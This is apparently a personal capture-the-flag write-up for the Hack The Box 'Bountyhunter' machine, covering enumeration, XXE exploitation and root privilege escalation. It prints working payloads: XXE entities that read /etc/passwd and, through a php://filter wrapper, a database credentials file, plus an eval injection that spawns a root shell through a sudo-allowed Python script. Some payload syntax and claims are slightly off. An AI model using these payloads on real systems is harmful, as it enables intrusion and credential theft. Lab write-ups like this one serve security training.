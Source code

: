 <h2>HTB - Bughunter (easy)</h2>  
**bug**: xxe  

**nmap**  
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**  
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to https://rhost/portal.php    
check sources  
click https://rhost/log_submit.php  
open burp, capture request on submit  
you can see POST request to /tracker_diRPrOOf314.php  
check data to inspector  
the data is base64 and url encoded   

![[Pasted image 20250505191745.png]]

----
<h3>exploitation thru XXE</h3>   
capture POST request   
https://rhost/tracker_diRPrOOf314.php  
you can see XML format being rendered in frontend  
the `title` (entity) including its values are reflected  

**(encoding)**   
use Hackverter ext on burp suite  
select Encode tab  
select urlencode and base64  
  
  
**sensitive file read XXE**  
change the requested XML with this edited request  

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**  
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:  
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal  
echo "the td data type shit" | base64 -d  
connect to the machine with SSH  

----
<h3>finding privesc path</h3>  

the user ``development`` has user privilege  
run ``sudo -l`` to check it  
now you can see a script that requrires ``NOPASSWD`` to run  

![[Pasted image 20250506105932.png]]

TicketValidator.py python script:  
```
#!/usr/bin/env python3

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for irregularities.
    code_line = None
    for i, x in enumerate(ticketFile.readlines()):
        if not x.startswith("# Skytrain Inc"):
            return False
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {''.join(x.strip().split(' ')[2:])}")
            continue
        if x.startswith("# Ticket Code: "):
            code_line = i+1
            continue
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("*")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
            return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**flaws in the script**  
the script asks for a `.md` for tickets, but it still continues even if it's not `.md`  
so we can craft even a `.txt` file to act like a ticket and feed it to the script  
  
here's what i came up with  
```
# Skytrain Inc
## Ticket to Anywhere
# Ticket Code:
**__import__('os').system('/bin/sh')**
```

what it does is,   
it gives the script the minimum requirements it asks for tickets to be valid   
Line 1: `# Skytrain Inc` satisfies the first-line check.  
Line 2:` ## Ticket` to Anywhere meets the second-line requirement (the destination can be anything).  
Line 3: `# Ticket Code`: indicates the next line is the ticket code.  
Line 4: ``**__import__('os').system('/bin/sh')**`` is the payload.  

after that, it executes the `bin/sh` to spawn a root shell to the target machine
**VOILA! BountyHunter  has been PWNED!**  